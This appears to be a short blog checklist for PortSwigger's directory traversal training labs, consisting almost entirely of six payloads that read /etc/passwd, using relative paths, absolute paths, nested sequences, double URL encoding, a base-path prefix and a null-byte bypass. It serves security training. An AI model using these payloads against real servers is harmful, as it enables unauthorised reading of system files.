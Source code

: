 ```yaml
---
layout: post
title:  "PortSwigger - Directory Traversal - Mystery Labs Checklist"
date:   2024-06-10 00:00
image:  /images/portswigger/WebSecurityAcademy.png
tags:   [directory-traversal,checklist]
categories: [PortSwigger]
---
```


## 1. Use basic directory traversal:
```
../../../../etc/passwd
```

## 2. Use absolute path:
```
/etc/passwd
```

## 3. Use recursion: 
```
..././..././..././..././etc/passwd
```

## 4. Use double url encoding
```
%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%36%35%25%37%34%25%36%33%25%32%66%25%37%30%25%36%31%25%37%33%25%37%33%25%37%37%25%36%34 
```

## 5. Use start of path:
```
/var/www/images/../../../../etc/passwd
```

## 6. Use null byte:
```
../../../etc/passwd%00123.png
```
<hr/>